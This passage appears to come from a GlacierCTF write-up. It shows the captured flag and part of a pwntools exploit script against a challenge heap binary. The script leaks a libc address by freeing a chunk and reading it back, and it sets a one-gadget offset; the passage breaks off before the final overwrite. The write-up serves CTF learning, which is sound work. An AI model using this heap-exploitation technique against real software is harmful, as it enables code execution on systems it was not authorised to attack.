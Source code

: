 ```bash
$ cat flag.txt
glacierctf{pwn_1S_Th3_0nly_r3al_c4t3G0ry_4nyw4y}
```


## Full exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './old_patched'

libc = ELF("./libc-2.23.so")


def sla(delim, line): return io.sendlineafter(delim, line)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def add(idx,size):
    sla(b"> ", b"1")
    sla(b"idx:", f"{idx}".encode())
    sla(b"size:", f"{size}".encode())

def delete(idx):
    sla(b"> ", b"2")
    sla(b"idx:", f"{idx}".encode())

def write(idx, content):
    sla(b"> ", b"3")
    sla(b"idx:", f"{idx}".encode())
    sla(b"contents:", content)

def view(idx):
    sla(b"> ", b"4")
    sla(b"idx:",f"{idx}".encode())
    io.recvuntil(b"data: ")
    leak = io.recvuntil(b"[").rstrip(b"[")
    return leak

gdbscript = '''
continue
'''.format(**locals())

gadget = 0x4527a

io = start()

## leak libc addr
add(0, 0x80)
add(1, 0x80)

delete(0)
leak = view(0)

libc.address = u64(leak.ljust(8,b"\x00")) -  (0x3554d8 + libc.sym.puts)
```
